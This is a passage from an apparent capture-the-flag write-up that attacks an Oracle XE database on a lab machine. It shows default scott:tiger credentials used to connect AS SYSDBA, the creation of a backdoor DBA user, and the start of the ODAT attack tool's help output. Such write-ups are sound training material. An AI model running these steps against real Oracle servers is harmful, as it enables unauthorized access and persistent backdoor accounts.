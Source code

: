 Bruteforcing the **XE** instance yielded a valid username and a password (default login) - `scott:tiger`.
> Note: Don't forget to do `set SID XE` to switch in between the instances in Metasploit.

Valid credentials mean that we can connect to the **XE** instance and start querying the database for possible information. As it turns out, *scott* is also granted **SYSBDA** privilege. Think of it as something like sudo - it gives you extra flexibility and higher privileges in case you want to do some database altering, user administration and the list continues. 

***

# Exploitation

## Creating your own privileged user
In the previous section we gathered all needed information - credentials `scott:tiger` and the fact that *scott* can run SQL queries as **SYSDBA**. I proceed to create my own backdoored user with access to the whole database, because I don't want to interfere with other players. Then connect to the database via *sqlplus* or a GUI tool like *DBeaver* and start typing the magic commands!

```console
root@EdgeOfNight:~# sqlplus scott/tiger@(DESCRIPTION=(ADDRESS=(PROTOCOL=TCP)(Host=10.10.10.82)(Port=1521))(CONNECT_DATA=(SID=XE))) AS SYSDBA

SQL*Plus: Release 12.2.0.1.0 Production on Fri Aug 3 14:04:16 2018

Copyright (c) 1982, 2016, Oracle.  All rights reserved.


Connected to:
Oracle Database 11g Express Edition Release 11.2.0.2.0 - 64bit Production

SQL> CREATE USER v3ded IDENTIFIED BY v3ded99;

User created.

SQL> GRANT dba TO v3ded;

Grant succeeded.
```
> Note: This creates user v3ded with password v3ded99 who owns dba (basically the whole database. TL;DR - no need to append every command with SYSDBA).


## ODAT
Here comes ODAT into the play. It will help us compromise the system! First of all run the tool with `python odat.py --help` to shows all its capabilities:
```console
root@EdgeOfNight:~# python odat.py --help
usage: odat.py [-h] [--version]
               {all,tnscmd,tnspoison,sidguesser,passwordguesser,utlhttp,httpuritype,utltcp,ctxsys,externaltable,dbmsxslprocessor,dbmsadvisor,utlfile,dbmsscheduler,java,passwordstealer,oradbg,dbmslob,stealremotepwds,userlikepwd,smb,privesc,cve,search,unwrapper,clean}
               ...

            _  __   _  ___ 
           / \|  \ / \|_ _|
          ( o ) o ) o || | 
           \_/|__/|_n_||_| 
-------------------------------------------
  _        __           _           ___ 
 / \      |  \         / \         |_ _|
( o )       o )         o |         | | 
 \_/racle |__/atabase |_n_|ttacking |_|ool 
```